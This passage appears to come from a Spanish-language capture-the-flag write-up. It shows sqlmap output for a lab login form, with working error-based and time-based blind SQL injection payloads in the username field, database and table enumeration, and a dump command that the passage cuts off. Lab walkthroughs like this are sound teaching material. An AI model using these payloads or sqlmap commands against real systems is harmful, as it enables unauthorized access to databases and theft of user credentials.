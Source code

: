 ```
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: usuario=admin' AND GTID_SUBSET(CONCAT(0x7170716b71,(SELECT (ELT(2407=2407,1))),0x7176787171),2407)-- QPsJ&contrase%C3%B1a=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usuario=admin' AND (SELECT 1600 FROM (SELECT(SLEEP(5)))RZVn)-- bLjg&contrase%C3%B1a=admin
---
[11:42:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.6
[11:42:24] [INFO] fetching database names
[11:42:24] [INFO] starting 5 threads
[11:42:24] [INFO] resumed: 'sys'
[11:42:24] [INFO] resumed: 'information_schema'
[11:42:24] [INFO] resumed: 'users'
[11:42:24] [INFO] resumed: 'mysql'
[11:42:24] [INFO] resumed: 'performance_schema'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users

[11:42:24] [INFO] fetching tables for database: 'users'
[11:42:24] [INFO] retrieved: 'usuarios'
Database: users
[1 table]
+----------+
| usuarios |
+----------+

[11:42:24] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 11:42:24 /2025-03-09/
```

Vemos que solo hay una tabla llamada `usuarios`, ahora vamos a ver que columnas contiene dicha tabla para ver la informacion que contiene.

```shell
sqlmap -r request.txt --dbs --batch -D users -T usuarios --threads 10 --dump
```

Info:

```
       ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assumeno liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:43:36 /2025-03-09/

[11:43:36] [INFO] parsing HTTP request from 'request.txt'
```